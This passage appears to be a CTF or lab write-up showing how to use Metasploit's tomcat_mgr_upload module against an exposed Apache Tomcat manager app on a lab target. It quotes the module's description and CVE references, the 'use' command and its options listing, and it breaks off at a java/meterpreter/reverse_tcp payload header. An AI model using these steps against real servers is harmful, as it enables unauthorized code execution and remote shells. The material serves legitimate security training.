 ```

Payload information:

Description:
  This module can be used to execute a payload on Apache Tomcat 
  servers that have an exposed "manager" application. The payload is 
  uploaded as a WAR archive containing a jsp application using a POST 
  request against the /manager/html/upload component. NOTE: The 
  compatible payload sets vary based on the selected target. For 
  example, you must select the Windows target to use native Windows 
  payloads.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2009-3843
  OSVDB (60317)
  https://nvd.nist.gov/vuln/detail/CVE-2009-4189
  OSVDB (60670)
  https://nvd.nist.gov/vuln/detail/CVE-2009-4188
  http://www.securityfocus.com/bid/38084
  https://nvd.nist.gov/vuln/detail/CVE-2010-0557
  http://www-01.ibm.com/support/docview.wss?uid=swg21419179
  https://nvd.nist.gov/vuln/detail/CVE-2010-4094
  http://www.zerodayinitiative.com/advisories/ZDI-10-214
  https://nvd.nist.gov/vuln/detail/CVE-2009-3548
  OSVDB (60176)
  http://www.securityfocus.com/bid/36954
  http://tomcat.apache.org/tomcat-5.5-doc/manager-howto.html
```

Let's check if there is a manager app on the target. Going to http://\[TARGET_IP\]:1234/manager, 
we get this page :  
![](https://i.imgur.com/NTZ68W4.png)  

So we have a manager app present on the webserver on port 1234 where we can upload files, we now know we can use this exploit 
(We could've done this manually but it is asked to use metasploit).

To use this exploit, we need to type `use 5` or `use exploit/multi/http/tomcat_mgr_upload`
Now, let's see the options used by the exploit with `options` :  
```
msf6 exploit(multi/http/tomcat_mgr_upload) > options

Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword                   no        The password for the specified username
   HttpUsername                   no        The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][..
                                            .]
   RHOSTS                         yes       The target host(s), see https://github.com/rapid7/metasplo
                                            it-framework/wiki/Using-Metasploit
   RPORT         80               yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /manager         yes       The URI path of the manager app (/html/upload and /undeplo
                                            y will be used)
   VHOST                          no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

```